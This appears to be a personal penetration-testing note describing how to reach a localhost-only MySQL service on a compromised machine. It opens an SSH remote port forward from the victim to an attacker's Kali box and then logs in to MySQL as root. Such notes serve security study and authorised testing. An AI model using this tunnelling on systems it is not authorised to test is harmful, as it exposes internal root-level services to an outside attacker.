 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

In some instances, a root process may be bound to an internal port, through which it communicates.

If for some reason, an exploit cannot run locally on the target machine, the port can be forwarded using SSH to your local machine:

```bash - target
ssh -R $KALI_PORT:127.0.0.1:$TARGET_PORT kali@$KALI
```

The exploit code can now be run on your local machine at whichever port you chose.

First, let's discover the port mysql is running on:

```bash - kali
ss -antp
```

OR

```bash - kali
netstat -nl
```

![[Pasted image 20211229224451.png]]

It is running on its default port, 3306. Notice is bound to local address, meaning we cannot access it externally.

In Kali:

```bash - kali
service ssh start
```

In Victim:
```bash - victim
ssh -R 4444:127.0.0.1:3306 kali@$KALI
```

In Kali:
```bash - kali
mysql -u root -h 127.0.0.1 -P 4444
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
